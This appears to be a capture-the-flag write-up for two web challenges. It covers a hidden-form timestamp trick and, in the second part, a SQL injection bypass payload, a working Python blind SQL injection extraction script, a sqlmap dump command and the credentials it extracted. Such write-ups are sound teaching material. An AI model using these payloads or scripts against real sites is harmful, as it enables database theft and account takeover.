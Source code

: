 # Conquest

Category: Web

Solves: 62

### Given information

> Our Mogambro is a lucid dreamer who has meticulously replicated one of his sessions in the form of the given website. Can you also complete the quest which Mogambro failed to do?

> http://20.244.82.82:2913/

### Solution

The website presents a puzzle:

> Welcome Adventurer. You are about to take up on an impossible challenge.
> But first you gotta find the path that takes you to the arena

`/robots.txt` returns:

```
User-Agent: *
Disallow: /tournament
```

Upon visiting `/tournament` we are presented with a leaderboard for what looks like a dragon slaying tournament, and another puzzle:

![Dragon slayers leaderboard](./images/leaderboard.png)

---

Eventually we reach `/tournament/humans.txt`. This page presents an HTML form with two form inputs which return "Too Slow. Try Again!" upon submit:

-   Hidden text field with the value set to `1582510775.828625`
-   Submit button

```
<html lang="en">
<head>
    [...]
</head>
<body>
    <h1>BEWARE! SLAY THE DRAGON IF YOU DARE!</h1>
    <form action="/legend" method="post">
        <input type="hidden" value="1582510775.828625" name="slay">
        <input type="submit" value="Fight the Beast!">
    </form>
</body>
</html>
```

---

`1582510775.828625` is actually an [UNIX timestamp](https://en.wikipedia.org/wiki/Unix_time#Definition) that refers to `Mon Feb 24 07:49:35 AM IST 2020`, almost four years in the past.

After providing various inputs to the `slay` form input such as:

-   negative numbers
-   timestamps with micro (and milli) second offsets to `1582510775.828625`

We are able to obtain the flag on sending an absurdly large number: `1e308`.

Flag: `BITSCTF{7HE_r341_7r345Ur3_W45_7H3_Fr13ND5_W3_M4D3_410N6_7H3_W4Y}`


# Too Blind To See

Category: Web

Solves: 17

### Given information

> Mogambro, our rookie intern, just stepped foot into the prestigious Software Firm. His big moment, the first project review, is knocking at the door like a pesky neighbor. But wait! Somewhere in his app lurks a secret which the admins are not aware of, hidden behind the password 'fluffybutterfly'. Can you crack the code and rescue Mogambro from this password puzzle? The clock is ticking!

> http://20.244.82.82:7000/

### Solution

The given link leads to a boilerplate shopping site which has three forms:

-   /login
    -   Form 1: User sign in
        -   API endpoint: `/welcome-homie`
    -   Form 2: Admin login
        -   API endpoint: `/yesyoudidit`
-   Newsletter form at `/`
    -   API endpoint: `/final-destination`

`/yesyoudidit` is found to be vulnerable to SQL injection using the payload:

```
' or 1=1;-- -
```

But all we get from it is a fake flag:

![Fake flag](./images/fake_flag.png)

---

The final endpoint `/final-destination` seems to be following the challenge name's footsteps as it's found to be vulnerable to Blind SQL injection. Inputting `' or 1=1;-- -` returns a JSON response containing the message "Email exists in the database" whereas any other normal input returns "Email does not exist in the database".

Using the following script we are able to extract the following table names: `maillist` and `userdata`.

```
import requests
import json
import string

charset = string.ascii_lowercase
print(charset)

table_name = ""

url = "http://20.244.82.82:7000/final-destination"

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
}

while True:
    for c in charset:
        payload = "email='%20union%20select%20null%2Cnull%20from%20sqlite_schema%20where%20name%20like%20'{}%25'--".format(
            table_name + c
        )

        response = requests.request("POST", url, headers=headers, data=payload)

        r = json.loads(response.text)

        if r["exists"]:
            print("\n", r)
            table_name += c
            print("Table name:", table_name)
            break
        else:
            # print(c, r["exists"], end=" ")
            print(".", end="", flush=True)
```

We utilise sqlmap to further extract the database contents:

```
sqlmap --level 5 --risk 3 -o -r burp_request.txt -p email --thread 10 --all
```

```
Database: <current>
Table: maillist
[1 entry]
+-----------------------------+-----------------+
| email | password |
+-----------------------------+-----------------+
| krazykorgaonkar@hotmail.com | fluffybutterfly |
+-----------------------------+-----------------+

Database: <current>
Table: userdata
[1 entry]
+----+------------------+-----------+
| id | password | username |
+----+------------------+-----------+
| 2 | bxgcrVNmtUehpvgH | knowitall |
+----+------------------+-----------+
```

We are then able to obtain the flag after logging in with the first set of credentials: `krazykorgaonkar@hotmail.com:fluffybutterfly`.

Flag: `BITSCTF{5UB5Cr183r5_4r3_M0r3_7HAN_JU5T_C0N5UM3r5}`

